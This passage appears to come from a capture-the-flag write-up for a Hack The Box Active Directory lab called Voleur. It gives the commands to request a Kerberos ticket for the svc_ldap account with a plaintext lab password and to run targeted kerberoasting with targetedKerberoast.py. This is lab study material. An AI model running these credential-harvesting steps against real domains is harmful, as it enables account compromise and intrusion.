 **I struggled here a bit because the NTLM Authentication is disabled.**

**Also for this targeted kerberoasting to work we first requested the TGT of the svc_ldap user using the impacket-getTGT.**

**Then exporting it to our Kerberos env variable.**

```bash
impacket-getTGT voleur.htb/svc_ldap:M1XyC9pW7qT5Vn
```

![image.png](/assets/images/Voleur_HTB/image%2019.png)

Now we are going to kerberoast the users with targetedkerberoast.py

**NOTE: LOOK AT THE —DC-HOST PARAMETER IT CONTAINS THE DC NAME WHICH IS DC.VOLEUR.HTB, IF WE ARE USING THE —DC-HOST PARAMETER IT MEANS WE ARE NOT AUTHENTICATING WITH NTLM AUTHENTICATION WE ARE USING THE KERBEROS AUTHENTICATION.**

Also here the -k parameter uses the .ccache file to authenticate us which we exported earlier. 

```bash
/opt/targetedKerberoast/targetedKerberoast.py -d voleur.htb -k --no-pass --dc-host dc.voleur.htb
```

![image.png](/assets/images/Voleur_HTB/image%2020.png)
